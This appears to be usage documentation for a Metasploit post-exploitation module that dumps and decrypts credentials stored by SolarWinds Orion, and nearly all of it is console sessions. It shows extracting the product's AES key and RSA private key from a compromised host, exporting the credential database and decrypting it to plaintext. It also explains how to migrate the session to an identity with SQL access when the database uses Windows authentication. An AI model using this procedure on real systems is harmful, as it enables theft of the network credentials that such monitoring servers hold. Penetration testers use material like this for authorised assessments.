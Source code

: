 ```
[*] Performing export of SolarWinds Orion SQL database to CSV file
[*] Export SolarWinds Orion DB ...
[+] 10 rows exported, 6 unique CredentialIDs
[+] Encrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118093912_default_192.168.101.125_solarwinds_orion_822163.txt
[*] Performing decryption of SolarWinds Orion SQL database
[+] 10 rows loaded, 6 unique CredentialIDs
[*] Process SolarWinds Orion DB ...
[+] 10 rows processed
[*] 10 rows recovered: 6 plaintext, 4 decrypted (0 blank)
[*] 10 rows written (0 blank rows withheld)
[+] 6 unique CredentialID records recovered
[+] Decrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118093912_default_192.168.101.125_solarwinds_orion_067745.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/solarwinds_orion_dump) >
```

Host with MSSQL SSPI authentication configured for external database - use `dump` to
extract keys, then migrate the session PID to an identity with permission to log on to
the SQL server. Perform `export` to acquire the encrypted data, then perform `decrypt`
to produce the plaintext:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/solarwinds_orion_dump
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > dump

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[*] Decrypt SolarWinds CryptoHelper Keystorage ...
[+] Compressed size: 2108
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
[+] Compressed size: 1344
[+] Compressed size: 1748
[+] Extracted SolarWinds Orion RSA private key for LocalMachine certificate with SHA1 thumbprint C3D5248B978C8D161DA0267C1DE946B1FDE4E7D2
[+] SolarWinds Orion RSA Key: /root/.msf4/loot/20221118091221_default_192.168.101.125_orionssl_457287.key
[*] Decrypt SWNetPerfMon.DB ...
[+] SolarWinds Orion SQL Database Connection Configuration:
[+]     Instance Name: tcp:cornflakes.cesium137.io
[+]     Database Name: SolarWindsOrion
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of SolarWinds Orion SQL database to CSV file
[*] Export SolarWinds Orion DB ...
[-] Sqlcmd: Error: Microsoft ODBC Driver 13 for SQL Server : Login failed for user 'CESIUM137\WINNING$'..
[-] No records exported from SQL server
[-] Post aborted due to failure: unknown: Could not export SolarWinds Orion database records
[*] Post module execution completed
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set AES_KEY 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
AES_KEY => 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set RSA_KEY_FILE /root/.msf4/loot/20221118091221_default_192.168.101.125_orionssl_457287.key
RSA_KEY_FILE => /root/.msf4/loot/20221118091221_default_192.168.101.125_orionssl_457287.key
```
